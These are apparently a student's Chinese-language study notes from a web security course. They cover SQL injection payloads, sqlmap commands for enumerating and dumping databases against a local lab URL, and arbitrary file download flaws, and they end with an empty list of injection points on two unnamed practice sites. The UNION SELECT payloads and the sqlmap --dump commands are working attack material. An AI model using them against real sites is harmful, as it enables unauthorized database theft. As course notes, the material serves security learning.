







## 7.14（周日）

### 上午

#### 1. payload：攻击载荷（攻击代码）

#### 2. sqlmap使用

##### 使用方式

* 当存在sql报错信息时，考虑存在sql注入，可用sqlmap进行实验

  ```
  1.通过sqlmap相关指令获取到payload：
  id=-4923' UNION ALL SELECT NULL,NULL,CONCAT(0x7170767871,0x6c52764a46544d5255545848736a6b6e6c7146716d6248776e797150616c42477a69455064717167,0x717a6b6b71)-- -
  2.将获取的payload用16进制进行转换：
  	id=-4923' UNION ALL SELECT NULL,NULL,CONCAT(0x40,database(),0x40),NULL-- -
  3.将payload替换网页地址的参数
  ```

* 常用于获取数据库结构信息

##### 案例

```
sqlmap -u [url] //测试某一url是否存在sql注入

	--current-db //查询当前数据库（推荐使用）
	--tables -D [数据库名]
	--columns -T [字段名] -D [数据库名]
例：
sqlmap -u http://192.168.71.36/Less-1/?id=2 //对某一url进行sql注入测试
sqlmap -u [url] --current-db //查询当前数据库名称
sqlmap -u [url] --tables -D [数据库名] //查询当前数据库下的表
sqlmap -u [url] --columns -T [字段名] -D [数据库名] //查询某一张表的字段
sqlmap -u [url] -D [数据库名] -T [表名] -C [字段名] --dump //将指定数据库的指定表的指定字段的数据脱机
```

##### 参数

* 参数可以随机组合，顺序没有要求

| 参数名称         | 含义                     |
| ---------------- | ------------------------ |
| -D               | 指定数据库               |
| -T               | 指定表格                 |
| -C               | 指定字段                 |
| -dbs             | 列出当前数据库           |
| --database --dbs | 获取数据库列表           |
| --tables         | 获取当前条件下所有表     |
| --columns        | 获取字段列表             |
| --current-db     | 获取当前数据库           |
| --current-user   | 获取当前用户             |
| --dump           | 导出内容（慎重使用！！） |
| --flush-session  | 清除sqlmap注入的缓存     |
| --batch          | 表示使用推荐选项         |

### 下午

#### 1. 任意漏洞下载

* 定义：在传递参数或者权限校验时用户可以自由传递下载内容
* 对下载的内容（参数）进行解码，解析下载位置后，可以自由编码想要下载的内容，并进行下载
* 适用于有**下载专区**的网站

#### 2. 注入点实战

##### 第一个网站

###### 第1个注入点

* news.php页面
* 

###### 第2个注入点

* course.php页面
* 

###### 第3个注入点

* Download.php
* 

###### 第4个注入点

* Q&A问答
* 

###### 第5个注入点

* activities.php页面
* 

###### 第6个注入点

* discuss.php页面
* 

##### 第二个网站

###### 第1、2个注入点

* news.php页面
* 


